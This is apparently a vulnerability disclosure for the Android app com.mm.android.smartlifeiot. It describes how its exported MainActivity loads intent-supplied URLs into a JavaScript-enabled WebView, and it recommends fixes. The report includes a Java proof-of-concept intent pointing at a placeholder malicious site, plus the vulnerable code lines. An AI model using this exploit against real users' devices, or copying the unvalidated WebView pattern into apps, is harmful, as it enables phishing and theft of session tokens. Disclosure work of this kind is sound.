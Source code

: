 ## Vulnerability Report (Revised)

### Introduction:
This vulnerability report outlines a potential security flaw identified in the `com.mm.android.smartlifeiot` app's `com.mm.android.easy4ip.MainActivity`. An attacker can leverage this flaw using a third-party app to load arbitrary web content in the WebView of the vulnerable application.



### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The `com.mm.android.easy4ip.MainActivity` activity in the `com.mm.android.smartlifeiot` app allows for the loading of URLs directly from intent data. This can be potentially exploited by a malicious third-party app to force this activity to load malicious web content from a URL specified by the attacker.

### Proof of Concept:

A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:

<code>
java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);
</code>

Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
<code>
   java
   this.url = getIntent().getExtras().getString("url");
</code>

3. JavaScript execution is enabled in the WebView:
   
<code>
   java
   this.webView.getSettings().setJavaScriptEnabled(true);
</code>
5. Direct web content loading with the fetched URL:

<code>
   java
   progressWebView.loadUrl(str);
   
</code>

### Impact:

A malicious actor can exploit this vulnerability to execute arbitrary JavaScript within the context of the vulnerable application. This could potentially lead to various attacks, including stealing session cookies or tokens, executing actions on behalf of the user within the app context, or displaying phishing content to the user.

### MITRE CWE References:

- [CWE-200: Information Exposure](https://cwe.mitre.org/data/definitions/200.html): Since arbitrary URLs can be loaded, there's a risk of exposing user data.
- [CWE-601: URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html): The application redirects users to any URL without validation.
- [CWE-749: Exposed Dangerous Method or Function](https://cwe.mitre.org/data/definitions/749.html): Due to the WebView configurations and lack of input validation.
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

 TLDR: **Set Exported='False'**
 ![image](https://github.com/actuator/imou/assets/78701239/ca4d4e27-3d5d-4a49-8fd9-2a7e60e29c37)
